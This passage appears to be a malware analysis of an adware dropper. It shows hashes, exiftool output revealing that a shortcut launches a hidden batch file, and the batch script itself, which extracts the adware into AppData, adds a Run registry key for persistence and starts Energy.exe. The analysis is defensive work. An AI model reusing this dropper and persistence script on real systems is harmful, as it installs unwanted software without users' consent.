 Retrieving the hashes

```
sha256sum *
37c049e9ebb69972275505f647f2704531f87c0600344e99eb9310967d540cc5  app.zip
28aa9e1138699400262d57ff33a1f8527c19aac9def50ae346f735aedb6f362e  icon.ico
2f00d7cd954bcb1fffdc3f14fde7f239b4eb3aecc9f6ac24540ed25856969f33  Install.lnk
9a143b794c66645c16182effad66d62593250e713da0a7b68a510cb6e5fa13f3  resources.bat
```

Analyzing the shortcut (Install.lnk), using a tool named exiftool to inspect the metadata of the shortcut, you can see that the "Relative Path" contains the path to the batch script.  Yes, even though there are a large number a traversed directories, the shortcut will ultimately run `resources.bat` in the directory of where the shortcut resides.

```
exiftool Install.lnk
ExifTool Version Number         : 12.30
File Name                       : Install.lnk
Directory                       : .
File Size                       : 1179 bytes
File Modification Date/Time     : 2022:06:22 00:52:05-04:00
File Access Date/Time           : 2022:08:30 20:16:26-04:00
File Inode Change Date/Time     : 2022:08:30 20:15:02-04:00
File Permissions                : -rw-rw-r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, RelativePath, IconFile, Unicode, ExpIcon
File Attributes                 : (none)
Target File Size                : 0
Icon Index                      : 81
Run Window                      : Show Minimized No Activate
Hot Key                         : (none)
Target File DOS Name            : resources.bat
Relative Path                   : ..\..\..\..\..\..\..\..\..\..\..\resources.bat
Icon File Name                  : C:\Windows\System32\SHELL32.dll
```

The batch script uses tar to decompress the adware contained in the zipped archive and copies it to `%APPDATA%` which is an environmental variable that points to `C:\users\victim\AppData\Roaming`.  A registry key is also created for persistence.  Finally, a call to `Energy.exe` file is made running the adware.

```
tar -xvf "app.zip" -C "%APPDATA%"
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Energy /f
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Energy /t REG_SZ /d "%APPDATA%\Energy\Energy.exe --fTZuKpU" /f
start /d "%APPDATA%\Energy" Energy.exe
```

Inspecting the adware directory.

```
ls Energy/
d3dcompiler_47.dll  Energy.exe  ffmpeg.dll  icudtl.dat  imgs  libEGL.dll  libGLESv2.dll  locales  node.dll  nw_100_percent.pak  nw_200_percent.pak  nw.dll  nw_elf.dll  resources.pak  v8_context_snapshot.bin
```
